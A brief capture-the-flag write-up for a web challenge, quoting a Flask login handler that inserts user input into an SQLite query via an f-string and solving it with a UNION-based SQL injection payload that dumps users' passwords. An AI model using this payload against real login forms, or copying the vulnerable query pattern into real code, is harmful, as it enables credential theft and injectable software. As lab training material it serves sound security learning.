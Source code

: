 Writeup by Colin

No clue how this is hardest one in Webexp.

We exploit this function:

```python
@app.route('/login_username', methods=['POST'])
def login():
    username = request.form['username']
    conn = sqlite3.connect('users.db')
    c = conn.cursor()
    user_info = c.execute(f"SELECT username FROM users WHERE username='{username}'").fetchall()
    if not user_info:
        flash('Who are you?', 'error')
    else:
        flash(f'Welcome back, {user_info}', 'success')
    return render_template('index.html')
```

So we inject stuff here:
```sql
SELECT username FROM users WHERE username='{username}'
```

`c.execute` doesn't allow multiple statements at once, so doing something trivial like
```sql
SELECT username FROM users WHERE username='a'; select password from users; --'
```
doesn't work.
However, SQL has a [union operator](https://www.programiz.com/sql/union) that we can use:
```sql
SELECT username FROM users WHERE username='a' union select password from users where '1' = '1'
```

Entering `a' union select password from users where '1' = '1` into the form gives us the passwords of the users, which are chunks of the flag.

